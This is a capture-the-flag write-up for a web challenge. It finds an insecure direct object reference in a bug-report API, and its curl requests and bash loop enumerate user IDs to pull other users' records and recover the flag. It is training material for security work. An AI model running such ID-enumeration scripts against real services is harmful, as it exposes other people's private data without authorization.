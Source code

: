 # Other bugs
Category: Web

## Description
> Part 4 of Imperva's challenge
> 
> To find web application vulnerabilities, you should understand how the app works!
> 

## Solution

The [previous challenge](JS_and_HTML_are_best_friends.md)'s flag has left us with a hint: `i_can_view_other_bugs`.

Let's understand how the app works by checking the sources. The app's client-side logic resides in an Javascript file called `popup.js`.

It's pretty long, but the relevant parts are:
```javascript

// ...

function loadBugs(id) {
    console.log(id.value);
    fetch('/api/bugs/getBugs.php', {
        method: 'POST',
        body: JSON.stringify({
            "id": id.value
        }),
    }).then(function(response) {
        if (response.ok) {
            return response.json();
        }
        return Promise.reject(response);
    }).then(function(data) {
        populateTable(data["data"]);
        check();
        console.log(data);
    }).catch(function(error) {
        console.warn(error);
    });
}

// ...

var btnList = document.getElementById("btnList");

// ...

btnList.onclick = function() {
    $('#bugsTableData').empty();
    loadBugs(this);
}

```

And in the HTML, we have:

```html
<!-- ... -->
<button type="button" id="btnList" class="btn btn-primary" value="318">Show bugs reports</button>
<!-- ... -->
```

So we can see that when clicking the button, the `loadBugs` function gets called with the user ID from the HTML tag (320) and makes a request to the `/api/bugs/getBugs.php` endpoint with `id=318`.

We can mimic this with Curl:
```console
root@kali:/media/sf_CTFs/technion/Other_bugs# curl 'http://www.vulnet.zone/api/bugs/getBugs.php'   -H 'Connection: keep-alive'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'   -H 'Content-Type: text/plain;charset=UTF-8'   -H 'Accept: */*'   -H 'Origin: http://www.vulnet.zone'   -H 'Referer: http://www.vulnet.zone/welcome.php'   -H 'Accept-Language: en-US,en;q=0.9,he;q=0.8'   -H 'Cookie: cookies_here'   --data-binary '{"id":"318"}'   --compressed   --insecure
{"status":"succeeded","data":[{"category":"XSS","company":"Imperva","details":""},{"category":"SSRF","company":"Imperva","details":""}]}
```

But who says we must use our own user ID? Let's try using a different user ID:
```console
root@kali:/media/sf_CTFs/technion/Other_bugs# curl 'http://www.vulnet.zone/api/bugs/getBugs.php'   -H 'Connection: keep-alive'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'   -H 'Content-Type: text/plain;charset=UTF-8'   -H 'Accept: */*'   -H 'Origin: http://www.vulnet.zone'   -H 'Referer: http://www.vulnet.zone/welcome.php'   -H 'Accept-Language: en-US,en;q=0.9,he;q=0.8'   -H 'Cookie: cookies_here'   --data-binary '{"id":"1"}'   --compressed   --insecure
{"status":"succeeded","data":[]}
```

It came back empty, but the status is "succeeded". So  we can build a simple bash loop that harvests all the bugs:
```bash
#!/bin/bash

for i in {0..330}
do
   echo $i
   curl 'http://www.vulnet.zone/api/bugs/getBugs.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://www.vulnet.zone/welcome.php' -H 'Content-Type: text/plain;charset=UTF-8' -H 'Origin: http://www.vulnet.zone' -H 'Connection: keep-alive' -H 'Cookie: cookies_here' --data-raw '{"id":"'$i'"}' && echo
   sleep 1
done
```

Bug #15 returns the flag:
```
{"status":"succeeded","data":[{"category":"IDOR","company":"bugs Inc","details":"cstechnion{aws_likes_ssrf_image}"}]}
```

The flag is a hint for the [next challenge](Bleeding_cloud.md).